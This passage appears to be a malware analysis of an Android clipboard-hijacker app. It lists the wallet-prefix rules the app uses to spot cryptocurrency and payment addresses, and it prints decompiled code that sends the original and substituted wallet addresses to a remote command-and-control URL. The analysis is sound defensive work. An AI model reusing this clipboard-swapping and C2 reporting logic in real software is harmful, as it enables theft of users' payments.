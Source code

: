 This listener contains the malicious payload. It grabs the current content of the clipboard and looks by which characters it begins, and tries to guess if this is a crypto currency wallet address and for which crypto currency.

```
if ((!clipper.abcchannelmc.ru.clipperreborn.ClipboardService.access$100(this.this$0).getText().toString().contains("+7"))
  || (clipper.abcchannelmc.ru.clipperreborn.ClipboardService.access$100(this.this$0).getText().length() != 12)) {
  if ((!v1_5.contains("7")) ||
     (clipper.abcchannelmc.ru.clipperreborn.ClipboardService.access$100(this.this$0).getText().length() != 11)) {
...
```

- Begins with 7 and length 12: Visa QIWI wallet
- Begins with 4: Yandex
- Begins with Z: WebMoney US dollar
- Begins with R: WebMoney Russian Rubles
- Begins with 4 and length 95: Monero
- Begins with 1 or 3 and length 34: Bitcoin
- Begins with X and length 34: Dash
- D and length = 34 -> Doge
- t and length = 35 -> ZEC = ZCash
- 0x and length = 40 -> ETH = Ether
- L and length = 34 -> LTC = Litecoin
- B and length = 34 -> BLK = BlackCoin

We noticed earlier a URL: `this.gate = "http://fastfrmt.beget.tech/clipper/gateway/";`. Let's search where `this.gate` is used.

```
d.CLASS_Lclipper_abcchannelmc_ru_clipperreborn_ClipboardService.FIELD_gate.show_dref()
########## DREF
R: Lclipper/abcchannelmc/ru/clipperreborn/MainActivity$1; run ()V a
R: Lclipper/abcchannelmc/ru/clipperreborn/ClipboardService$1; run ()V e
R: Lclipper/abcchannelmc/ru/clipperreborn/ClipboardService$2; run ()V e
W: Lclipper/abcchannelmc/ru/clipperreborn/ClipboardService; <init> ()V 12
####################
In [11]: d.CLASS_Lclipper_abcchannelmc_ru_clipperreborn_ClipboardService_1.METHOD_run.source()
public void run()
    {
        try {
            java.io.IOException v0_1 = new StringBuilder();
            v0_1.append(this.this$0.gate);
            v0_1.append("attach.php?log&wallet=");
            v0_1.append(this.val$wallet);
            v0_1.append("&was=");
            v0_1.append(this.val$ne);
            clipper.abcchannelmc.ru.clipperreborn.HttpClient.getReq(v0_1.toString());
            android.util.Log.d("Clipper", "New log");
        } catch (java.io.IOException v0_4) {
            v0_4.printStackTrace();
        } catch (java.io.IOException v0_5) {
            v0_5.printStackTrace();
        }
        return;
    }
```
This is where the original and new wallet address is sent to a remote CnC.
